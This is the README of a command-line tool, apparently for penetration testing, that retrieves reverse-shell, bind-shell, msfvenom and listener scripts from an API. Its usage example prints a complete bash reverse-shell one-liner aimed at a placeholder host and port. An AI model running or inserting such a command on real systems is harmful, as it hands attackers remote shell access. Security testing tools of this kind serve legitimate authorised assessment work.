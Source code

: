 ## CLI Tool for interacting with Pen Tools API.
A command line interface tool for interacting with Pen Tools API. Quickly retrieve and format scripts using a simple set of commands.
### Installation 
**The package requires Python 3.7 or higher**.

Install latest version from [PyPI](https://pypi.org/project/pentools/): ```pip install pentools``` 

### Resources
[API documentation](https://pentools.herokuapp.com/docs)
### Usage
Retrieve the list of scripts based on specified category (leave blank to see all).

```
pentools list
```
*output:*
```
Available types

0. rev
1. bind
2. msf_venom
3. listener
```

Add the ```-f``` flag to see available scripts.

```
pentools list rev  -f
```
*output:*
```
Available scripts and types

0. rev
    Shell session established on a connection that is initiated from a remote machine.
        0. bash_i [id: 1]('linux', 'mac')
        1. bash_196 [id: 2]('linux', 'mac')
        2. bash_read_line [id: 3]('linux', 'mac')
        3. Bash_5 [id: 4]('linux', 'mac')
        ...
```

Retrieve and format a specific script by id.

```
pentools script -i 1 -ho example.ip -p 12345 -s bin/bash
```
*output:*
```
---------------(code)---------------

bin/bash -i >& /dev/tcp/example.ip/12345 0>&1

-------------(end code)-------------
```


        


